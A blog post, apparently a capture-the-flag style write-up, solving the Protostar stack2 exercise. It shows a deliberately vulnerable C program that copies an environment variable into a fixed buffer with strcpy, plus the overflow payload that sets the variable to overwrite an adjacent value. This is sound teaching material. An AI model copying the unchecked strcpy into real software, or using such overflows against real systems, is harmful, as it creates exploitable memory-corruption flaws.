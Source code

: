 ```yaml
---
layout: post
title: "More Stack Overflows: protostar stack1"
date: 2018-10-21 14:53:24 -700
categories: jekyll update
---
```


BRIEF UPDATE: For reasons I am not aware of, the original site that hosted protostar, is currently down.

Fortunately, there is another site, liveoverflow.com, which is hosts protostar source code, though the VM is not hosted there unfortunately. 

~

This next challenge in protostar involves setting environment variables.
{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
{% endhighlight %}

The code is not too different from what we have seen before, except that it uses a function called getenv().

getenv() returns a pointer to an environment variable, in this case, "GREENIE".

An environment variable is essentially a value stored in a specific 'envrironment'. They can be used by programs, like the one above.


Our goal is to set the 'modified' variable to be equal to 0x0d0a0d0a. Notice that this program doesn't take input from the command line OR with gets(), or even scanf().

If you haven't guessed, we need to set the environment variable GREENIE to let us overflow the buffer, and let us overwrite the 'modified'.


$export GREENIE="test"


$./stack2

Try again, you got 0x00000000 

$



That did change the control flow from the default error that would be displayed if variable was NULL. Now we just need to overflow!

$export GREENIE="$(python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"')"


$./stack2

you have correctly modified the variable

$

Cool. 
Notice that unlike the gets() or strcpy() overflows, for this one, we need to only fill the buffer wiht 64 "A"s instead of 72.
